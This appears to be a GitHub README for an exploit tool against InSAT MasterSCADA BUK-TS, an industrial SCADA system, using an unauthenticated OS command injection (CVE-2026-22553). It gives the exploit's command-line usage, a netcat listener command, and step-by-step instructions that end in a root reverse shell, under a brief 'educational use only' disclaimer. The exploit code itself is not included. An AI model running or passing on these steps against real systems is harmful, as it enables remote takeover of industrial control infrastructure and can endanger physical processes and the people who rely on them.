

<div align="center">


# InSAT MasterSCADA BUK-TS - Unauthenticated RCE
**CVE-2026-22553** | **CVSS 9.8 Critical**| **Exploit Author Mohammed Idrees Banyamer**

</div>

<br>

## 📝 Description

**InSAT MasterSCADA BUK-TS** suffers from an **Unauthenticated OS Command Injection** vulnerability in the `MMadmServ` web interface. This flaw allows remote attackers to achieve **full remote code execution (RCE)** without any authentication.

- **Affected Product**: InSAT MasterSCADA BUK-TS (All versions)
- **Vulnerability Type**: OS Command Injection (CWE-78)
- **Severity**: Critical (CVSS v3.1 Score: 9.8)
- **Exploit Author**: [Mohammed Idrees Banyamer](https://github.com/mbanyamer)
- **Country**: Jordan 🇯🇴

---

## 🛠️ Attack Method Diagram



---

## 🚀 Usage

```bash
python3 exploit.py <target_url> --lhost <your_ip> --lport <your_port>
```

### Example

```bash
python3 exploit.py http://192.168.1.50:8080 --lhost 192.168.1.100 --lport 4444
```

### Options

| Option     | Description                        |
|------------|------------------------------------|
| `target`   | Target URL (e.g. http://ip:port)   |
| `--lhost`  | Your IP address (reverse shell)    |
| `--lport`  | Your listening port                |

---

## 📌 How to Use

1. Start a listener on your machine:
   ```bash
   nc -lvnp 4444
   ```

2. Run the exploit:
   ```bash
   python3 exploit.py http://target-ip:port --lhost your-ip --lport 4444
   ```

3. Get a reverse shell with **root/system privileges**.

---

## ⚠️ Disclaimer

> This exploit is provided for **educational and authorized penetration testing purposes only**.  
> Unauthorized use against systems you do not own is **illegal** and may violate international laws.  
> The author is not responsible for any misuse.

---

## 📬 Author

**Mohammed Idrees Banyamer**  
- Instagram: [@banyamer_security](https://www.instagram.com/banyamer_security)  
- GitHub: [mbanyamer](https://github.com/mbanyamer)  
- Country: Jordan 🇯🇴

---

**Star ⭐ this repository if you found it useful!**

</div>


